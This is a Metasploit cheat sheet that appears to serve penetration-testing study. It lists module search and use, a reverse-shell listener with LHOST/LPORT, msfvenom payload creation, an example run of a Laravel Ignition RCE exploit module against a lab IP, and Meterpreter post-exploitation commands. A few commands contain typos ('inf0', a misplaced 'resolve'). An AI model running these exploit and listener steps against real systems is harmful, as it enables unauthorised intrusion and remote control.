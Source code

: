 # Metasploit Cheat Sheet

## Beginner Concepts

### Basic Usage
```bash
# Basic Usage
msfconsole

# Search for Modules
search <keyword>
# Search for Exploits
search type:exploit platform:windows
# Search for Payloads
search type:payload arch:x86
# Search for Auxillary Modules
search type:auxiliary name:scanner
# Search for Post-Exploitation Modules
search type:post platform:linux

# Use a Module
use <module_name>

# Set Module Options
set <option_name> <value>

# Show Module Options
show options

# Exploit Target
exploit

# Payloads
show payloads

```

### Intermediate
```bash
# Background Session
background

# Multi-Handler
use exploit/multi/handler

# Listener Options
set PAYLOAD <payload_name>
set LHOST <listener_host>
set LPORT <listener_port>

# Custom Payloads
msfvenom -p <payload_name> ...

# Resource Script
resource <script_file>

# Database Integration
db_status
db_connect <database_url>

# Post Exploitation
use post/<module_name>

```

**Exploit** A piece of code of code that uses a vulnerability present on the target system
**Vulnerability** A design, coding, or logic flaw affecting the target system. The exploitation of a vulnerability can result in disclosing confidential information or allowing the attacker to execute code on the target system. 
**Payload** An exploit will take advantage of a vulnerability. However, if we want the exploit to have the result we want (gaining access tot the target system, read confidential information) we need to use a payload. Payloads are the code that will run on the target system.

**Auxillary** Any supporting module, such as scanners, crawlers and fuzzers, can be found here.
**Encoders** Will allow you to encode the exploit and payload in the hope that a signature-based antivirus solution may miss them.
- signature-based anti-virus and security solutions have a DB of known threats. They detect threats by comparing suspicious files to this database and raise an alert if there is a match. Thus encoders can have a limited success rate as antivirus solutions can perform additional checks
**Evasion** While encoders will encode the payload, they should not be considered a direct attempt to evade antivirus software. 
**Exploits** organized by target systems
**NOPS** No Operation, do nothing literally
- They are represented in the Intel x86 CPU family they are represented with 0x90, following which the CPU will do nothing for one cycle. They are often used as a buffer to achieve consistent payload sizes.
**Payloads** code that will run on the target system
- *Singles* Self-contained payloads (add user, launch notepad.exe, etc) that do not need to download and additional component to run
- *Stagers* Responsible for setting up a connection channel between Metasploit and the target system. Useful when working with staged payloads. "Staged Payloads" will first upload a stager on the target then download the rest of the payload (stage). This provides some advantages as the initial size of the payload will be relatively small compared to the full payload sent at once
- *Stages*  Download by the stager. This will allow you to use larger sized payloads.
- *Post* Post modules will be useful on the final stage of the penetration testing process listed above, post-exploitation.


start metasploit
```bash
~$ msfconsole
```

common commands
```bash
# view sessions 
~$ sessions  

# upgrade the last opened session to Meterpreter 
~$ sessions -u -1  

# interact with a session 
~$ sessions -i session_id  

# Background the currently interactive session, and go back to the Metasploit prompt 
~$ background

# To search for a module, use the ‘search’ command:
~$msf6 > search laravel

# Load a module with the ‘use’ command
~$ msf6 > use multi/php/ignition_laravel_debug_rce

# view the information about the module, including the module options, description, CVE details, etc
~$ msf6 exploit(multi/php/ignition_laravel_debug_rce) > inf0

# View the available options to set
~$ show options

# Set the target host and logging
~$ set rhost 10.10.163.96
~$ set verbose true

# Set the payload listening address; this is the IP address of the host running Metasploit
~$ set lhost LISTEN_IP

# show options again
~$ show options

# Run or check the module
~$ check
~$ run

        
```

Meterpreter
common commands
```bash
# Get information about the remote system, such as OS
~$ sysinfo
# Upload a file or directory 
~$ upload local_file.txt  
# Display interfaces 
~$ ipconfig  
# Resolve a set of host names on the target to IP addresses - useful for pivoting resolve
~$ remote_service1 remote_service2
```




